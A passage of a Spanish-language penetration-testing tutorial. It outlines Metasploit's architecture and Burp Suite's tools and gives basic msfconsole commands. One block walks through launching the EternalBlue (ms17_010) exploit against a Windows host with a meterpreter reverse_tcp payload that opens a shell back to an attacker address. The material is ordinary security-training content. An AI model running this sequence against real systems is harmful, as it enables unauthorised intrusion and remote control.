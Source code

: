 ```
    ├── Binwalk
    └── Foremost
```

### Metasploit Framework

#### Arquitectura de Metasploit
```
Metasploit Components:
├── MSFconsole (Interfaz principal)
├── Exploits (Código de explotación)
├── Payloads (Código ejecutado post-explotación)
├── Auxiliary (Módulos de utilidad)
├── Post-exploitation (Módulos post-explotación)
├── Encoders (Evasión de antivirus)
└── NOP generators (No-operation)
```

#### Uso Básico de Metasploit
**Comandos Fundamentales:**
```bash
# Iniciar MSFconsole
msfconsole

# Buscar exploits
search type:exploit platform:windows

# Seleccionar exploit
use exploit/windows/smb/ms17_010_eternalblue

# Ver opciones requeridas
show options

# Configurar target
set RHOSTS 192.168.1.100

# Seleccionar payload
set PAYLOAD windows/x64/meterpreter/reverse_tcp

# Configurar LHOST
set LHOST 192.168.1.50

# Ejecutar exploit
exploit
```

### Burp Suite

#### Componentes de Burp Suite
**Herramientas Principales:**
- **Proxy**: Intercepción de tráfico HTTP/HTTPS
- **Scanner**: Detección automática de vulnerabilidades
- **Intruder**: Ataques automatizados y fuzzing
- **Repeater**: Modificación y reenvío de requests
- **Sequencer**: Análisis de tokens y sesiones
- **Decoder**: Codificación/decodificación de datos
- **Comparer**: Comparación de responses
